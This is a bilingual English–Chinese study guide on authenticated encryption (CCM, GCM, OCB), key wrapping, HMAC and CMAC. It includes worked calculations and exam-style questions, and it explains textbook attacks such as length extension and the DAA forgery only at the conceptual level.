Goal. Give the four ways of combining encryption and authentication with the receiver's order of operations. Compare CCM, GCM and OCB. Count blocks and cipher calls for GCM.目标。 给出结合加密与认证的四种方式，以及接收方的操作顺序。比较 CCM、GCM 和 OCB。统计 GCM 的块数和密码调用次数。
Step 1: four ways to combine第 1 步：四种组合方式
In words: authenticated encryption = protect secrecy and integrity together; the four combinations differ in the order, and only encrypt-then-authenticate lets the receiver reject a forgery before decrypting.用文字表述：认证加密 = 同时保护保密性和完整性；四种组合的区别在于顺序，只有先加密后认证才允许接收方在解密之前拒绝伪造。
Authenticated encryption (AE, 认证加密) protects confidentiality and authenticity simultaneously. Four combinations use an encryption \(E\), a hash \(H\) or a MAC.认证加密（AE）同时保护保密性和真实性。四种组合分别使用加密 \(E\)、哈希 \(H\) 或 MAC。
| Approach方式 | Sender computes发送方计算 | Used in应用 | Receiver接收方 |
|---|---|---|---|
| Hash then encrypt (H→E)先散列后加密（H→E） | \(E(K,[M\Vert H(M)])\) | WEP (weak, replaced)WEP（弱，已被替换） | decrypt, then verify先解密，后验证 |
| Authenticate then encrypt (A→E)先认证后加密（A→E） | \(T=\mathrm{MAC}(K_1,M)\), send \(E(K_2,[M\Vert T])\) | SSL/TLS (Chapter 19)SSL/TLS（第 19 章） | decrypt, then verify先解密，后验证 |
| Encrypt then authenticate (E→A)先加密后认证（E→A） | \(C=E(K_2,M)\), \(T=\mathrm{MAC}(K_1,C)\), send \((C,T)\) | IPsec (Chapter 20)IPsec（第 20 章） | verify, then decrypt先验证，后解密 |
| Encrypt and authenticate (E+A)加密并认证（E+A） | \(C=E(K_2,M)\), \(T=\mathrm{MAC}(K_1,M)\), send \((C,T)\) | SSH (Chapter 19)SSH（第 19 章） | decrypt, then verify先解密，后验证 |
All have known weaknesses, yet with proper design the MAC-based combinations can be secure. CCM and GCM are NIST standards that package both services. Both take associated data \(A\) and a nonce \(N\) or IV that is unique for every use of the key. The nonce prevents replay and other attacks.四种组合都有已知的弱点，但只要设计得当，基于 MAC 的组合可以是安全的。CCM 和 GCM 是把两种服务打包在一起的 NIST 标准。两者都接受关联数据 \(A\)，以及每次使用同一密钥时都必须唯一的 nonce \(N\) 或 IV。nonce 可以防止重放和其他攻击。
Step 2: CCM, GCM and OCB第 2 步：CCM、GCM 和 OCB
In words: CCM = counter-mode encryption plus a CBC-MAC tag; GCM = counter-mode encryption plus a Galois-field hash tag; OCB = one-pass encryption with block-specific offsets.用文字表述：CCM = 计数器模式加密加上 CBC-MAC 标签；GCM = 计数器模式加密加上伽罗瓦域哈希标签；OCB = 一遍加密，每个块使用特定的偏移量。
CCM (Counter with CBC-MAC, NIST SP 800-38C, designed for IEEE 802.11 WiFi) uses AES, CTR mode (Section 7.4) and a CBC-MAC chain, all under one key \(K\). Its inputs are the plaintext \(P\) (authenticated and encrypted), the associated data \(A\) and the nonce \(N\).CCM（带 CBC-MAC 的计数器模式，NIST SP 800-38C，为 IEEE 802.11 WiFi 设计）使用 AES、CTR 模式（第 7.4 节）和一条 CBC-MAC 链，全部在同一密钥 \(K\) 下。它的输入是明文 \(P\)（既认证又加密）、关联数据 \(A\) 和 nonce \(N\)。


- Authenticate. A formatting function turns \((N,A,P)\) into blocks \(B_0,\dots,B_r\). \(B_0\) holds the nonce and flags that give the lengths. Then \(Y_0=E(K,B_0)\), \(Y_i=E(K,[B_i\oplus Y_{i-1}])\) and \(T=\mathrm{MSB}_{T_{\text{len}}}(Y_r)\).认证。 一个格式化函数把 \((N,A,P)\) 转换为块 \(B_0,\dots,B_r\)。\(B_0\) 包含 nonce 以及表示长度的标志。然后计算 \(Y_0=E(K,B_0)\)、\(Y_i=E(K,[B_i\oplus Y_{i-1}])\) 和 \(T=\mathrm{MSB}_{T_{\text{len}}}(Y_r)\)。
- Encrypt. Counter blocks \(\mathrm{Ctr}_j\) for \(j=0,\dots,m\), with \(m=\lceil P_{\text{len}}/128\rceil\), where \(m\) is the number of plaintext blocks and \(P_{\text{len}}\) the plaintext length in bits, give keystream blocks \(S_j=E(K,\mathrm{Ctr}_j)\), where \(j\) is the counter index. The plaintext \(P\) is XORed with \(S=S_1\Vert\dots\Vert S_m\) and the tag with \(S_0\).加密。 计数器块 \(\mathrm{Ctr}_j\) 用于 \(j=0,\dots,m\)（\(m=\lceil P_{\text{len}}/128\rceil\)，其中 \(m\) 为明文块数，\(P_{\text{len}}\) 为以比特计的明文长度），生成密钥流块 \(S_j=E(K,\mathrm{Ctr}_j)\)，其中 \(j\) 为计数器索引。明文 \(P\) 与 \(S=S_1\Vert\dots\Vert S_m\) 异或，标签与 \(S_0\) 异或。
- Decrypt. If the ciphertext is not longer than the tag, return INVALID. Otherwise regenerate the keystream, recover \(P\) and \(T\), recompute the tag, and release \(P\) only if it matches.解密。 如果密文不长于标签，则返回 INVALID。否则重新生成密钥流，恢复 \(P\) 和 \(T\)，重新计算标签，只有当它匹配时才释放 \(P\)。
CCM needs two passes over the plaintext, one for the MAC and one for CTR. Its CBC-MAC part is sequential. The lengths of \(P\) and \(A\) must be known first.CCM 需要对明文做两遍处理，一遍计算 MAC，一遍做 CTR。其中的 CBC-MAC 部分是顺序进行的。必须先知道 \(P\) 和 \(A\) 的长度。
GCM (Galois/Counter Mode, NIST SP 800-38D) is designed to be parallelisable: the blocks can be processed at the same time, for high throughput with low cost and latency. The message is encrypted in a CTR variant. The ciphertext is then multiplied with key material and length information over \(\mathrm{GF}(2^{128})\) (Chapter 5) to give the tag. GMAC is the authentication-only variant.GCM（伽罗瓦/计数器模式，NIST SP 800-38D）被设计为可并行化：各块可以同时处理，因而吞吐量高，成本和延迟都低。消息以一种 CTR 变体加密。然后把密文与密钥材料以及长度信息在 \(\mathrm{GF}(2^{128})\) 上相乘（第 5 章），得到标签。GMAC 是只做认证的变体。
- \(\mathrm{GHASH}_H(X)\) for \(X=X_1\Vert\dots\Vert X_m\) with 128-bit blocks: \(Y_0=0^{128}\), \(Y_i=(Y_{i-1}\oplus X_i)\cdot H\), output \(Y_m\).\(\mathrm{GHASH}_H(X)\) 用于以 128 比特为块的 \(X=X_1\Vert\dots\Vert X_m\)：\(Y_0=0^{128}\)、\(Y_i=(Y_{i-1}\oplus X_i)\cdot H\)，输出 \(Y_m\)。
- \(\mathrm{GCTR}_K(\mathrm{ICB},X)\): counter blocks \(CB_1=\mathrm{ICB}\) and \(CB_i=\mathrm{inc}_{32}(CB_{i-1})\), which adds 1 to the rightmost 32 bits modulo \(2^{32}\). Then \(Y_i=X_i\oplus E(K,CB_i)\).\(\mathrm{GCTR}_K(\mathrm{ICB},X)\)：计数器块 \(CB_1=\mathrm{ICB}\) 和 \(CB_i=\mathrm{inc}_{32}(CB_{i-1})\)，它对最右边 32 比特加 1（模 \(2^{32}\)）。然后 \(Y_i=X_i\oplus E(K,CB_i)\)。


Because \(S\) is one block, \(T=\mathrm{MSB}_t(S\oplus E(K,J_0))\). The tag covers the ciphertext, so it can be checked before decrypting. GCM needs only Galois-field multiplication, which is easy in hardware.因为 \(S\) 只有一个块，所以 \(T=\mathrm{MSB}_t(S\oplus E(K,J_0))\)。标签是对密文计算的，因此可以在解密之前校验。GCM 只需要伽罗瓦域乘法，这在硬件中很容易实现。
OCB (Offset Codebook, RFC 7253, approved for IEEE 802.11) aims at efficiency: one pass yields ciphertext and tag, with about one block-cipher call per block and full parallelism. Each block is encrypted independently, as in ECB, but a block-specific offset \(Z[i]\), derived from the nonce and the key, makes identical blocks encrypt differently. The tag comes from a checksum of the plaintext blocks. The nonce may be public but must be unique per key.OCB（偏移码本，RFC 7253，获 IEEE 802.11 批准）追求效率：一遍即可同时得到密文和标签，大约每块一次分组密码调用，并且完全可以并行。每个块都像 ECB 那样独立加密，但一个由 nonce 和密钥导出的块特定偏移量 \(Z[i]\) 使相同的块加密后得到不同的结果。标签来自明文块的校验和。nonce 可以是公开的，但在每个密钥下必须唯一。
| CCM | GCM | OCB | |
|---|---|---|---|
| Encryption加密 | CTR | CTR, 32-bit counterCTR，32 位计数器 | Offset codebook偏移码本 |
| Tag mechanism标签机制 | CBC-MAC over \(N,A,P\) | GHASH over \(A,C\) in \(\mathrm{GF}(2^{128})\) | Checksum of plaintext blocks明文分组的校验和 |
| Tag covers标签覆盖 | Plaintext (encrypt-and-MAC)明文（encrypt-and-MAC） | Ciphertext密文 | Plaintext明文 |
| Passes遍数 | Two两遍 | One一遍 | One一遍 |
| Parallel可并行 | CTR part only仅 CTR 部分 | Fully完全 | Fully完全 |
| Standard标准 | NIST SP 800-38C | NIST SP 800-38D | RFC 7253 |
Practice练习
Q1. (Compare) State the receiver's order of operations for H→E, A→E, E→A and E+A. Which lets the receiver reject forgeries without decrypting, and why is that useful?Q1.（比较）说明接收方对 H→E、A→E、E→A 和 E+A 的操作顺序。哪一种方式使接收方无需解密即可拒绝伪造？这样做有何用处？
Answer
H→E, A→E and E+A: decrypt first, then verify the hash or MAC. E→A: verify the MAC on the ciphertext first, then decrypt. With E→A a forged or corrupted message is rejected on the tag alone, which saves the decryption work and exposes no decryption behaviour (such as padding errors) to the attacker.H→E、A→E 与 E+A：先解密，再验证散列或 MAC。E→A：先对密文验证 MAC，再解密。采用 E→A 时，仅凭标签即可拒绝伪造或损坏的消息，既节省了解密的开销，又不会向攻击者暴露任何解密过程中的行为（例如填充错误）。
Q2. (Calculation) AES-GCM protects a 1000-byte payload with a 20-byte header as associated data and a 96-bit IV. Find (a) \(u\) and \(v\); (b) the number of blocks passed to GHASH; (c) the number of AES calls; (d) \(J_0\) and the first counter used for encryption; (e) the AES calls CCM needs for the same data, assuming the encoded header occupies 2 blocks.Q2.（计算）AES-GCM 保护一个 1000 字节的有效载荷，以 20 字节首部作为关联数据，并使用 96 位 IV。求：(a) \(u\) 与 \(v\)；(b) 输入 GHASH 的分组数；(c) AES 调用次数；(d) \(J_0\) 以及加密所用的第一个计数器值；(e) 对于同样的数据，CCM 所需的 AES 调用次数，假设编码后的首部占 2 个分组。
Answer
(a) \(P\): 8000 bits, \(\lceil8000/128\rceil=63\) blocks, so \(u=128\cdot63-8000=64\) bits. \(A\): 160 bits, 2 blocks, so \(v=256-160=96\) bits. (b) \(2+63+1=66\) blocks: \(A\), \(C\) and the length block \([\mathrm{len}(A)]_{64}\Vert[\mathrm{len}(C)]_{64}\). (c) 1 for \(H=E(K,0^{128})\), 63 for the keystream and 1 for \(E(K,J_0)\): 65. (d) \(J_0=\mathrm{IV}\Vert0^{31}\Vert1\) (counter value 1); encryption starts at \(\mathrm{inc}_{32}(J_0)=\mathrm{IV}\Vert0^{30}10\) (counter value 2). (e) CBC-MAC chain over \(B_0\), 2 blocks of \(A\) and 63 of \(P\) = 66 blocks, so 66 calls; CTR needs \(\mathrm{Ctr}_0\) for the tag plus 63 = 64; total 130, about twice GCM's 65.(a) \(P\)：8000 位，\(\lceil8000/128\rceil=63\) 个分组，因此 \(u=128\cdot63-8000=64\) 位。\(A\)：160 位，2 个分组，因此 \(v=256-160=96\) 位。(b) \(2+63+1=66\) 个分组：\(A\)、\(C\) 以及长度分组 \([\mathrm{len}(A)]_{64}\Vert[\mathrm{len}(C)]_{64}\)。(c) \(H=E(K,0^{128})\) 需 1 次，密钥流需 63 次，\(E(K,J_0)\) 需 1 次：共 65 次。(d) \(J_0=\mathrm{IV}\Vert0^{31}\Vert1\)（计数器值为 1）；加密从 \(\mathrm{inc}_{32}(J_0)=\mathrm{IV}\Vert0^{30}10\)（计数器值为 2）开始。(e) 对 \(B_0\) 进行的 CBC-MAC 链包括 2 个 \(A\) 分组和 63 个 \(P\) 分组，共 66 个分组，因此需 66 次调用；CTR 部分需 \(\mathrm{Ctr}_0\) 用于标签，外加 63 次，共 64 次；总计 130 次，约为 GCM 的 65 次的两倍。
Key Wrapping and Pseudorandom Generation from Hashes and MACs ★由散列与 MAC 构造的密钥封装与伪随机数生成
Key wrapping（密钥封装）(NIST SP 800-38F) transports a symmetric key under a key encryption key (KEK, 密钥加密密钥) that both parties already share. Every output bit is designed to depend on every input bit, and the unwrap checks integrity. A hash or an HMAC can also drive a pseudorandom number generator (PRNG) from a seed.密钥封装（NIST SP 800-38F）用一把双方事先共享的密钥加密密钥（KEK）来传输对称密钥。每个输出比特都被设计为依赖于每个输入比特，而且解封时会检查完整性。哈希或 HMAC 也可以从一个种子驱动伪随机数生成器（PRNG）。
| PRNG | Output block输出块 | Cost成本 |
|---|---|---|
| Hash-based基于哈希 | \(H(V+i-1)\), \(V\) the seed | one hash per block每块一次哈希 |
| HMAC-based基于 HMAC | HMAC of the previous output or of a counter前一个输出或计数器的 HMAC | twice the hash-based cost, more assurance成本为两倍，但保证更强 |
Practice练习
Q1. (Calculation) A 192-bit AES key is wrapped under an AES KEK. (a) Find \(n\), the number of stages and block-cipher calls, and the ciphertext length. (b) At which stage is the \(R\) output of stage 7 next used? (c) What does the receiver check on unwrapping?Q1.（计算）用 AES 密钥加密密钥（KEK）封装一把 192 位 AES 密钥。(a) 求 \(n\)、阶段数和分组密码调用次数，以及密文长度。(b) 第 7 阶段的 \(R\) 输出在哪一阶段被再次使用？(c) 解封装时接收方检查什么？
Answer
(a) \(n=192/64=3\), \(s=6n=18\) stages, so 18 AES encryptions; the ciphertext has \(n+1=4\) blocks, 256 bits. (b) The \(R\) output skips \(n\) stages: stage \(7+3=10\). (c) The recovered \(A(0)\) must equal A6A6A6A6A6A6A6A6; otherwise the data were altered or the KEK is wrong and the unwrap reports an error.(a) \(n=192/64=3\)，共 \(s=6n=18\) 个阶段，因此需要 18 次 AES 加密；密文包含 \(n+1=4\) 个分组，共 256 位。(b) \(R\) 的输出跳过 \(n\) 个阶段，即在第 \(7+3=10\) 阶段使用。(c) 恢复出的 \(A(0)\) 必须等于 A6A6A6A6A6A6A6A6；否则说明数据被篡改或 KEK 错误，解封装报错。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Traffic analysis流量分析 | Discovering the pattern of traffic (frequency, duration, length); countered by encryption, not by message authentication.发现流量的模式（频率、持续时间、长度）；由加密对抗，而不是由消息认证对抗。 |
| Computation resistance计算抗性 | Given known message-tag pairs, a new valid pair cannot be computed.给定已知的消息-标签对，无法计算出新的有效对。 |
| Internal and external error control内部与外部差错控制 | An FCS inside the encryption authenticates; an FCS outside does not.加密内部的 FCS 能提供认证；加密外部的 FCS 不能。 |
| Length extension长度扩展 | Attack on \(H(K\Vert M)\) for Merkle-Damgård hashes; HMAC's outer hash stops it.针对 \(H(K\Vert M)\) 的攻击（Merkle-Damgård 哈希）；HMAC 的外层哈希可防止它。 |
| DAA | DES in CBC mode with zero IV, tag is the last block; obsolete, safe only for fixed length.DES 的 CBC 模式，零 IV，标签为最后一块；已过时，只对定长消息安全。 |
| GMAC | The authentication-only variant of GCM.GCM 的只做认证的变体。 |
| OCB | One-pass authenticated encryption with block offsets; RFC 7253.一遍完成的认证加密，带块偏移；RFC 7253。 |
| CCM, GCM | NIST authenticated-encryption modes; both need a nonce that is never repeated.NIST 认证加密模式；两者都要求 nonce 永不重复。 |
| Key wrap check value密钥封装的校验值 | A6A6A6A6A6A6A6A6, the initial value \(A(0)\), tested after unwrapping.A6A6A6A6A6A6A6A6，解封后检验的初始值 \(A(0)\)。 |
Exam-style questions考试题型练习
Q1. (Concepts and comparison, 10 marks) (a) List the eight attacks on network communication and state which are countered by confidentiality, by message authentication and by digital signatures (4). (b) Define a MAC and explain why it is many-to-one, using 100-bit messages and a 10-bit tag (3). (c) Compare a hash code, a MAC and a digital signature on key, who can create it and non-repudiation (3).Q1.（概念与比较，10 分）(a) 列出网络通信中的八种攻击，并说明哪些可由机密性、消息认证和数字签名对抗（4 分）。(b) 定义 MAC，并以 100 位消息和 10 位标签为例，解释其为何是多对一的（3 分）。(c) 就密钥、创建者以及不可否认性，比较散列码、MAC 和数字签名（3 分）。
Answer
(a) Disclosure and traffic analysis are countered by confidentiality (encryption). Masquerade, content modification, sequence modification and timing modification (delay, replay) are countered by message authentication. Source repudiation needs a digital signature, which usually also counters attacks 3–6; destination repudiation needs a signature plus a protocol.(a) 泄露和流量分析可由机密性（加密）对抗。伪装、内容修改、序列修改以及时序修改（延迟、重放）可由消息认证对抗。源端否认需要数字签名，它通常也能对抗攻击 3–6；目的端否认则需要数字签名加上协议。
(b) A MAC is a fixed-length value \(T=\mathrm{MAC}(K,M)\) computed from the message and a secret key shared by sender and receiver; the receiver recomputes and compares it. With 100-bit messages there are \(2^{100}\) inputs but only \(2^{10}\) tags, so each tag arises from \(2^{100}/2^{10}=2^{90}\) messages on average. The function need not be reversible.(b) MAC 是由消息以及发送方与接收方共享的秘密密钥计算出的定长值 \(T=\mathrm{MAC}(K,M)\)；接收方重新计算并比较。对于 100 位消息，共有 \(2^{100}\) 个输入，却只有 \(2^{10}\) 个标签，因此平均每个标签对应 \(2^{100}/2^{10}=2^{90}\) 条消息。该函数不必是可逆的。
(c) A hash code has no key, anyone can compute it, and it provides no non-repudiation (and no authentication unless protected). A MAC uses one shared secret key; either holder can create it; no non-repudiation, since the receiver could have made the tag. A signature uses a private key to sign and a public key to verify; only the owner can create it; it gives non-repudiation.(c) 散列码没有密钥，任何人都能计算，不提供不可否认性（除非受到保护，否则也不提供认证）。MAC 使用一个共享的秘密密钥，任一密钥持有者都能生成；由于接收方同样可以生成标签，因此不提供不可否认性。数字签名使用私钥签名、公钥验证；只有所有者能够生成；它提供不可否认性。
Q2. (Calculation, 12 marks) A MAC uses a 112-bit key and a 48-bit tag. (a) State the two brute-force attacks, their costs and which is cheaper (4). (b) How many candidate keys remain after each of three known message–tag pairs, and how many pairs identify the key (4)? (c) Why can these attacks not be run offline like a hash collision search (2)? (d) What parameters satisfy the usual guideline (2)?Q2.（计算，12 分）某 MAC 使用 112 位密钥和 48 位标签。(a) 说明两种穷举攻击、它们的代价以及哪一种更便宜（4 分）。(b) 在三个已知消息-标签对的每一对之后，各剩余多少个候选密钥，以及多少对才能确定密钥（4 分）？(c) 为什么这些攻击不能像散列碰撞搜索那样离线进行（2 分）？(d) 哪些参数满足通常的准则（2 分）？
Answer
(a) Key search costs about \(2^{112}\) MAC computations; guessing or searching a tag costs about \(2^{48}\) (average \(2^{47}\)). The effort is \(\min(2^{112},2^{48})=2^{48}\), so tag guessing is cheaper.(a) 密钥搜索约需 \(2^{112}\) 次 MAC 计算；猜测或搜索标签约需 \(2^{48}\) 次（平均 \(2^{47}\) 次）。两者的工作量分别为 \(\min(2^{112},2^{48})=2^{48}\)，故猜测标签更便宜。
(b) After round \(r\) about \(2^{112-48r}\) keys remain: \(2^{64}\), \(2^{16}\) and \(2^{-32}<1\). Three pairs identify the key (\(112/48=2.33\), rounded up).(b) 第 \(r\) 轮之后约剩下 \(2^{112-48r}\) 个密钥：\(2^{64}\)、\(2^{16}\) 和 \(2^{-32}<1\)。三对消息-标签可以确定密钥（\(112/48=2.33\)，向上取整）。
(c) A hash is public, so collisions can be searched with only the algorithm. A MAC needs the key to produce tags; without it the attacker needs real message–tag pairs (chosen or observed), so every trial involves the legitimate system.(c) 散列函数是公开的，因此仅凭算法即可搜索碰撞。MAC 生成标签需要密钥；没有密钥时，攻击者需要真实的消息-标签对（选择的或观察到的），因此每一次尝试都涉及合法系统。
(d) The guideline is \(\min(k,n)\ge N\) with \(N\approx128\): for example a 128-bit key and a tag of at least 128 bits.(d) 该准则为 \(\min(k,n)\ge N\)，并且 \(N\approx128\)：例如 128 位密钥与至少 128 位的标签。
思路：每轮把候选密钥除以 \(2^n\)；强度取密钥和标签中较短的一个。
Q3. (HMAC, 12 marks) (a) Write the HMAC formula and the seven steps, defining \(K^+\), ipad and opad (4). (b) HMAC uses SHA-1 (\(b=512\), \(n=160\)) with a 160-bit key: how many zero bits pad the key (1)? (c) How many compression calls does a 200-byte message need with plain SHA-1, with HMAC and with precomputed states (3)? (d) State two design objectives of HMAC and the main advantage over other hash-based MACs (2). (e) Why is \(H(K\Vert M)\) not used (2)?Q3.（HMAC，12 分）(a) 写出 HMAC 公式及其七个步骤，并定义 \(K^+\)、ipad 和 opad（4 分）。(b) HMAC 使用 SHA-1（\(b=512\)，\(n=160\)），密钥为 160 位：需要用多少个零位填充密钥（1 分）？(c) 对于 200 字节的消息，普通 SHA-1、HMAC 以及使用预计算状态的 HMAC 各需要多少次压缩函数调用（3 分）？(d) 说明 HMAC 的两个设计目标，以及它相较于其他基于散列的 MAC 的主要优势（2 分）。(e) 为什么不使用 \(H(K\Vert M)\)（2 分）？
Answer
(a) \(\mathrm{HMAC}(K,M)=H[(K^+\oplus\text{opad})\Vert H[(K^+\oplus\text{ipad})\Vert M]]\). \(K^+\) is \(K\) padded with zeros on the right to \(b\) bits (a key longer than \(b\) is hashed first); ipad is 0x36 and opad is 0x5C, each repeated \(b/8\) times. Steps: pad \(K\) to \(K^+\); \(S_i=K^+\oplus\text{ipad}\); append \(M\) to \(S_i\); hash it; \(S_o=K^+\oplus\text{opad}\); append the hash result to \(S_o\); hash again and output.(a) \(\mathrm{HMAC}(K,M)=H[(K^+\oplus\text{opad})\Vert H[(K^+\oplus\text{ipad})\Vert M]]\)。\(K^+\) 是 \(K\)，在右侧补零至 \(b\) 位（若密钥长于 \(b\)，则先对其散列）；ipad 为 0x36，opad 为 0x5C，各重复 \(b/8\) 次。步骤：将 \(K\) 补齐至 \(K^+\)；\(S_i=K^+\oplus\text{ipad}\)；把 \(M\) 附加到 \(S_i\) 上并对其散列；\(S_o=K^+\oplus\text{opad}\)；把散列结果附加到 \(S_o\) 上，再次散列并输出。
(b) \(512-160=352\) zero bits (44 bytes).(b) \(512-160=352\) 个零位（44 字节）。
(c) \(1600+65=1665\) bits give \(L=\lceil1665/512\rceil=4\) blocks. Plain SHA-1: 4 calls. HMAC: \(L+3=7\) (inner 5, outer 2). With precomputed states: \(L+1=5\).(c) \(1600+65=1665\) 位对应 \(L=\lceil1665/512\rceil=4\) 个分组。普通 SHA-1：4 次调用。HMAC：\(L+3=7\) 次（内层 5 次，外层 2 次）。使用预计算状态时：\(L+1=5\) 次。
(d) Use available hash functions without modification (black box); allow easy replacement of the hash; preserve performance; handle keys simply; have a well-understood analysis. The main advantage is a proof that HMAC is secure if the embedded hash has reasonable strength.(d) 无需修改即可使用现有散列函数（作为黑盒）；便于替换所嵌入的散列函数；保持性能；简单地处理密钥；具有易于理解的安全性分析。其主要优势在于：只要所嵌入的散列函数具有合理的强度，就能证明 HMAC 是安全的。
(e) Length extension: from \(H(K\Vert M)\) an attacker can compute a valid tag for \(M\Vert p\Vert M'\) without \(K\). HMAC's keyed outer hash on a fixed-length input prevents this.(e) 长度扩展：攻击者可以由 \(H(K\Vert M)\) 在不知道 \(K\) 的情况下计算出 \(M\Vert p\Vert M'\) 的有效标签。HMAC 的外层散列带有密钥，且输入长度固定，因此可以防止这种攻击。
Q4. (CBC-MAC and CMAC, 10 marks) (a) Describe DAA and show how a tag for a two-block message can be forged from one known tag (4). (b) Describe CMAC for a message whose length is not a multiple of the block size, including how the subkeys arise (4). (c) For \(b=64\) and \(L=\text{9E3779B97F4A7C15}\) compute \(K_1\) and \(K_2\) with constant 0x1B (2).Q4.（CBC-MAC 与 CMAC，10 分）(a) 描述 DAA，并说明如何由一个已知标签伪造两分组消息的标签（4 分）。(b) 描述消息长度不是分组大小整数倍时的 CMAC，包括子密钥如何产生（4 分）。(c) 对于 \(b=64\) 和 \(L=\text{9E3779B97F4A7C15}\)，用常数 0x1B 计算 \(K_1\) 和 \(K_2\)（2 分）。
Answer
(a) DAA is DES-CBC with zero IV: \(O_1=E(K,D_1)\), \(O_i=E(K,[D_i\oplus O_{i-1}])\), tag \(=O_N\) or its leftmost \(M\) bits (\(16\le M\le64\)); the last block is zero-padded. It is safe only for one fixed message length. Given \(T=\mathrm{MAC}(K,X)\), the message \(X\Vert(X\oplus T)\) has tag \(E(K,(X\oplus T)\oplus T)=E(K,X)=T\), without \(K\).(a) DAA 即零 IV 的 DES-CBC：\(O_1=E(K,D_1)\)，\(O_i=E(K,[D_i\oplus O_{i-1}])\)，标签为 \(=O_N\)，或取其最左侧 \(M\) 位（\(16\le M\le64\)）；最后一个分组以零填充。它仅对一种固定消息长度是安全的。已知 \(T=\mathrm{MAC}(K,X)\) 的情况下，无需 \(K\) 即可得出消息 \(X\Vert(X\oplus T)\) 的标签 \(E(K,(X\oplus T)\oplus T)=E(K,X)=T\)。
(b) The last incomplete block is padded with a 1 followed by 0s to \(b\) bits. All blocks are CBC-chained as \(C_i=E(K,[M_i\oplus C_{i-1}])\), except that the last block is also XORed with \(K_2\): \(C_n=E(K,[M_n\oplus C_{n-1}\oplus K_2])\), and \(T=\mathrm{MSB}_{T_{\text{len}}}(C_n)\). The subkeys are \(L=E(K,0^b)\), \(K_1=L\cdot x\), \(K_2=L\cdot x^2\) in \(\mathrm{GF}(2^b)\), computed by left shifts and a conditional XOR of the field constant. The secret mask stops extension; \(K_1\) (complete) and \(K_2\) (padded) keep the two cases apart.(b) 最后一个不完整的分组先填充一个 1，随后补 0，直至 \(b\) 位。所有分组按 \(C_i=E(K,[M_i\oplus C_{i-1}])\) 进行 CBC 链接，但最后一个分组还需与 \(K_2\) 异或：\(C_n=E(K,[M_n\oplus C_{n-1}\oplus K_2])\)，并且 \(T=\mathrm{MSB}_{T_{\text{len}}}(C_n)\)。子密钥为 \(L=E(K,0^b)\)、\(K_1=L\cdot x\)、\(K_2=L\cdot x^2\)，它们位于 \(\mathrm{GF}(2^b)\) 中，通过左移和对域常数进行条件异或计算得出。秘密掩码阻止长度扩展；\(K_1\)（完整消息）与 \(K_2\)（填充消息）用于区分两种情况。
(c) The leading bit of \(L\) is 1, so \(K_1=(L\ll1)\oplus\text{1B}=\text{3C6EF372FE94F82A}\oplus\text{1B}=\text{3C6EF372FE94F831}\). Its leading bit is 0, so \(K_2=K_1\ll1=\text{78DDE6E5FD29F062}\).(c) \(L\) 的首位为 1，因此 \(K_1=(L\ll1)\oplus\text{1B}=\text{3C6EF372FE94F82A}\oplus\text{1B}=\text{3C6EF372FE94F831}\)。其首位为 0，因此 \(K_2=K_1\ll1=\text{78DDE6E5FD29F062}\)。
